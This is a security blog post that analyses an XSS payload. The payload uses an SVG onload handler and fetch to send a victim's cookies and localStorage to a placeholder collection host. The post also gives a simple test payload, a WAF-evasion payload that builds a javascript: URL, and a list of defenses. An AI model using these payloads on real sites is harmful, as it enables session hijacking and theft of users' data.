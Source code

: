 ```yaml
---
title: XSS Payload That Steals Both Cookies and Local Storage Data
date: 2025-06-06 19:49:08 +0530
categories: [Cybersecurity, XSS Payload]
tags: ['xss', 'web-security', 'payloads', 'hacking']
---
```


Cross-Site Scripting (XSS) attacks remain a pervasive threat to web application security, enabling client-side code injection and execution. This analysis dissects a potent XSS payload specifically engineered for the exfiltration of both HTTP cookies and `localStorage` data from compromised user sessions.

## The Exfiltration Payload

```html
<svg/onload='const url = `https://weburl/collect?cookie=${encodeURIComponent(document.cookie)}&localStorage=${encodeURIComponent(JSON.stringify(localStorage))}`; fetch(url);'>
```

This inline SVG-based payload, when rendered by a vulnerable web page, initiates the following sequence of operations:

1.  **SVG Element Instantiation**: The `<svg>` tag is leveraged as an HTML element capable of executing inline JavaScript via event handlers.
2.  **`onload` Event Trigger**: The `onload` event handler is invoked immediately upon the SVG element's parsing and rendering within the DOM.
3.  **Malicious URL Construction**: A dynamic URL string is constructed, incorporating:
    * The attacker's controlled data collection endpoint: `https://weburl/collect`.
    * The victim's `document.cookie` string, URL-encoded (`encodeURIComponent`) to ensure safe transmission of special characters.
    * The victim's `localStorage` object, serialized to a JSON string (`JSON.stringify`) and then URL-encoded for transmission.
4.  **Asynchronous Data Transmission**: The `fetch(url)` API asynchronously transmits an HTTP GET request containing the constructed URL and its sensitive query parameters (exfiltrated cookies and `localStorage` data) to the attacker's server. This occurs without page reload, making the attack highly stealthy.

## Consequences of Successful Exploitation

A successful XSS attack leveraging such a payload can lead to severe security breaches:

* **Session Hijacking**: The exfiltration of HTTP-only (if `HttpOnly` flag is absent) or non-`HttpOnly` cookies enables attackers to hijack active user sessions, bypass authentication mechanisms, and assume the victim's identity within the application.
* **Persistent Data Compromise**: The compromise of `localStorage` allows attackers to steal cached Personally Identifiable Information (PII), application-specific settings, API keys, or JWTs (if stored insecurely client-side), leading to privacy violations and potential further exploitation.
* **Privilege Escalation**: By impersonating privileged users, attackers can potentially escalate their access rights within the application.

## Advanced XSS Techniques & Testing

* **Vulnerability Testing**: Developers should proactively test for XSS by injecting common payloads into all user-controlled input fields (e.g., email, search queries, comments). A basic test payload such as `test@gmail.com'%22%3E%3Csvg/onload=alert(/xss/)%3E` can reveal client-side execution.
* **WAF Evasion**: Adversaries continuously innovate techniques to bypass Web Application Firewalls (WAFs) and sanitize filters. Examples include character encoding, HTML entity obfuscation, tag attribute manipulation, and JavaScript context breaking. The provided location concatenation payload `"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">"` demonstrates a complex evasion strategy utilizing `onbeforescriptexecute` (a deprecated event handler) and character concatenation to reconstruct malicious JavaScript.

## Robust Protection Measures

Mitigating XSS vulnerabilities requires a multi-layered defense strategy deeply integrated into the Software Development Life Cycle (SDLC):

* **Input Validation & Sanitization**: Implement rigorous **server-side** validation for all user-supplied input. This includes type checking, length constraints, and strict regex-based sanitization to filter out malicious characters and HTML tags.
* **Contextual Output Encoding**: All user-generated content rendered into HTML must be **contextually output-encoded**. This is critical: different HTML contexts (body, attribute, JavaScript, URL) require specific encoding schemes to neutralize executable code.
* **Content Security Policy (CSP)**: Deploy a strong and granular **Content Security Policy (CSP)** via HTTP response headers. CSP acts as a whitelist, restricting the sources from which scripts, styles, and other resources can be loaded and executed, significantly reducing the attack surface.
* **HttpOnly and Secure Flags for Cookies**: Mark sensitive cookies (especially session tokens) with the `HttpOnly` flag to prevent client-side JavaScript access. Utilize the `Secure` flag to ensure cookies are only transmitted over encrypted HTTPS connections.
* **Regular Security Testing**: Conduct routine automated and manual penetration testing (including DAST and SAST) to identify and remediate XSS vulnerabilities proactively. Promptly apply security patches and updates for all libraries and frameworks.
* **Secure Coding Practices**: Adhere to secure coding best practices and frameworks (e.g., OWASP ASVS) that inherently mitigate XSS risks by design. Avoid dynamically constructing HTML from untrusted input without proper escaping.

Stay vigilant and proactive in fortifying your web applications against XSS attacks. Proactive prevention and robust development practices are paramount.